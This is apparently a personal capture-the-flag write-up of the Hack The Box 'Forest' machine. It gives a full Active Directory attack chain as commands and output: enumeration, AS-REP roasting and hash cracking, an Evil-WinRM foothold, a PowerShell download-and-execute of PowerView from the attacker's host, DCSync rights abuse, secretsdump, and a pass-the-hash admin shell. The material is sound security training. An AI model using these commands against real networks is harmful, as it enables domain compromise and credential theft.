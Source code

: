 #window #HackTheBox #AD
# Enum
## nmap
```
┌──(root㉿kali)-[~]
└─# nmap -sC -sV forest
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-04-28 00:04:15Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-28T00:04:22
|_  start_date: 2023-04-27T23:43:12
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-04-27T17:04:23-07:00`
```

## ldap
└─# rpcclient -U "" -N -c enumdomusers htb.local
```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```
# Exploit ASRepRoast #ExploitAD
└─# impacket-GetNPUsers -request 'htb.local/' -format john -outputfile hash -dc-ip 10.129.95.210
└─# john hash -wordlist=/usr/share/wordlists/rockyou.txt
```
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
```

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/htb]
└─# 
```
crackmapexec smb 10.129.223.250 -u svc-alfresco -p s3rvice --shares
```
SMB         10.129.223.250  445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.223.250  445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
SMB         10.129.223.250  445    FOREST           [+] Enumerated shares
SMB         10.129.223.250  445    FOREST           Share           Permissions     Remark
SMB         10.129.223.250  445    FOREST           -----           -----------     ------
SMB         10.129.223.250  445    FOREST           ADMIN$                          Remote Admin
SMB         10.129.223.250  445    FOREST           C$                              Default share
SMB         10.129.223.250  445    FOREST           IPC$                            Remote IPC
SMB         10.129.223.250  445    FOREST           NETLOGON        READ            Logon server share 
SMB         10.129.223.250  445    FOREST           SYSVOL          READ            Logon server share 
                                                                                                       

# Foothold
┌──(root㉿kali)-[/media/sf_kali_partage/challenge/htb]
└─# evil-winrm -i htb -u svc-alfresco -p s3rvice
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```
upload SharpHound.exe

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```
.\SharpHound.exe --CollectionMethods All --LdapUsername svc-alfresco --LdapPassword s3rvice --Domain HTB.local --ZipFileName ad.zip --OutputDirectory C:\Users\svc-alfresco\Documents\

```

└─# neo4j start
└─# bloodhound
	load ad.zip
	Analysis : shortest path from owned principale
	![[Pasted image 20230618152153.png]]
	Reachable High Value Targets
	![[Pasted image 20230620002814.png]]

**└─#** Start a smb server
```
impacket-smbserver roronoa $(pwd) -smb2support -user roronoa -password roronoa

```

*Evil-WinRM* PS C:\> (create new drive for smb share)
```
$SecPassword = ConvertTo-SecureString 'roronoa' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('roronoa', $SecPassword)
New-PSDrive -Name roronoa -PSProvider FileSystem -Credential $Cred -Root \\10.10.17.159\roronoa

```
*Evil-WinRM* PS roronoa:\>  (execute Powerview)
```
IEX(New-Object Net.WebClient).DownloadString("http://10.10.17.159/PowerView.ps1")
```

# PrivEsc
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> (create new user and grant DCsync privilege)
```
net user roronoa roronoa /add /domain
net group "EXCHANGE WINDOWS PERMISSIONS" /add roronoa
IEX(New-Object Net.WebClient).DownloadString("http://10.10.17.159/PowerView.ps1")
$SecPassword = ConvertTo-SecureString 'roronoa' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\roronoa', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentit "DC=htb,DC=local" -PrincipalIdentity roronoa -Rights DCSync

```

**└─#** 
```
impacket-secretsdump htb.local/roronoa:roronoa@10.129.95.210

````

*└─#* 
```
crackmapexec smb 10.129.95.210 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6

```
SMB         10.129.95.210   445    FOREST           [+] htb.local\administrator:32693b11e6aa90eb43d32c72a07ceea6 (*Pwn3d!*)

*└─#* (get admin shell)
```
impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.95.210

```